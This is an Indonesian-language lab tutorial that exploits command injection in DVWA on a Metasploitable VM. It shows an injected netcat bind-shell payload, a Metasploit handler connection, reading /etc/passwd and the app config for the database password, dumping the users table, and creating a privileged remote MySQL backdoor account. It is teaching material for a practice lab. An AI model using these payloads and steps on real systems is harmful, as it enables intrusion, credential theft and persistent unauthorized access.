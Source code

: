### Melakukan Command Execution Dengan Metasploit

* Apa itu Damn Vulnerable Web App (DVWA)?
  * DVWA adalah web app yang memiliki sekuritas lemah.
  * Tujuannya adalah untuk menguji kemampuan sekuritas.

| **Section 1: Login ke dalam DVWA** |
| :--- |


1. Buka browser

2. Login ke DVWA

   * Langkah**:**
     1. Buka firefox
     2. Masukkan ip metasploitable, contoh: [http://192.168.56.102/dvwa/login.php](http://192.168.56.102/dvwa/login.php).
     3. Login: admin
     4. Password: password
     5. Klik Login

| **Section 2: Tetapkan Tingkat Keamanan** |
| :--- |

1. Tetapkan tingkat keamanan DVWA

   * Langkah**:**  
     1. Klik bagian DVWA Security di menu bagian kiri.  
     2. Pilih "low"  
     3. Klik Submit

   * ![](/assets/lesson4/1.PNG)

| **Section 3: Lakukan Command Execution** |
| :--- |

1. Jalankan Netcat

   * **Langkah:**
     1. Pilih Command Execution pada menu bagian kiri.
     2. Masukkan text di bawah :
        * `192.168.56.102;mkfifo /tmp/pipe;sh /tmp/pipe | nc -l 4444 > /tmp/pipe`
     3. Klik Submit
   * ![](/assets/lesson4/2.PNG)
     4. Halaman akan loading, biarkan karena netcat sedang berjalan

| **Section 4: Menggunakan Metasploit dan Netcat** |
| :--- |


1. Masuk ke dalam session netcat

   * **Langkah:** 

     1. Buka terminal
     2. `use multi/handler`
     3. `set PAYLOAD linux/x86/shell/bind_tcp`
     4. `show options`
     5. `set RHOST 192.168.56.102`
     6. `exploit`

   * ![](/assets/lesson4/3.PNG)
   * ![](/assets/lesson4/4.PNG)
   * ![](/assets/lesson4/5.PNG)

   * Eksplorasi 
     
     1. Buka terminal
     2. `whoami`
     3. `grep www-data /etc/passwd`
     4. `grep www-data /etc/group`
     5. `pwd`
     6. `ls -ld /var/www`
     7. `ls -ld /var/www/dvwa`
     8. `ls -l /var/www/dvwa`

   * ![](/assets/lesson4/6.PNG)
   * ![](/assets/lesson4/7.PNG)

| **Section 5: Eksplorasi Database** |
| :--- |


1. Mendapatkan password databas
   * **Langkah:**
     1. Buka terminal 
     2. `ls -l /var/www/html/dvwa/config`
     3. `cat /var/www/html/dvwa/config/config.inc.php`
     
   * ![](/assets/lesson4/8.PNG)

2. Menampilkan user di database
   * **Langkah:**
     1. Buka terminal 
     2. `echo "show databases;" | mysql -uroot -pdvwaPASSWORD`
     3. `echo "use dvwa; show tables;" | mysql -uroot -pdvwaPASSWORD`
     4. `echo "use dvwa; desc users;" | mysql -uroot -pdvwaPASSWORD`
     5. `echo "select * from dvwa.users;" | mysql -uroot -pdvwaPASSWORD`
     
   * ![](/assets/lesson4/9.PNG)

   | **Section 6: Membuat User Baru di Database** |
| :--- |


1. Membuat User baru
   * **Langkah:**
     1. Buka terminal baru
     2. `echo "insert into dvwa.users values ('6','John','Gray','jgray',MD5('abc123'),'NA');" | mysql -uroot -pdvwaPASSWORD`
     3. `echo "select * from dvwa.users;" | mysql -uroot -pdvwaPASSWORD`

   * ![](/assets/lesson4/10.PNG)


   | **Section 5: Eksplorasi MySQL** |
| :--- |


1. Menampilkan informasi MySQL
   * **Langkah:**
     1. Buka terminal baru
     2. `echo "show databases;" | mysql -uroot -pdvwaPASSWORD`
     3. `echo "use mysql; show tables;" | mysql -uroot -pdvwaPASSWORD`
     
   * ![](/assets/lesson4/11.PNG)

2. Membuat User MySQL
   * **Langkah:**
     1. Buka terminal baru
     2. `echo "use mysql; GRANT ALL PRIVILEGES ON *.* TO 'db_hacker'@'%' IDENTIFIED BY 'abc123' WITH GRANT OPTION;" | mysql -uroot -pdvwaPASSWORD`
     3. `echo "select * from mysql.user;" | mysql -uroot -pdvwaPASSWORD`
     
   * ![](/assets/lesson4/12.PNG)

   | **Section 5: Hasil Akhir** |
| :--- |


1. Hasil Akhir
   * **Langkah:**
     1. Buka terminal baru
     2. `mysql -u db_hacker -h 192.168.56.102 -p`
     3. `date`
     4. `echo "DnR"`
     
   * ![](/assets/lesson4/13.PNG)



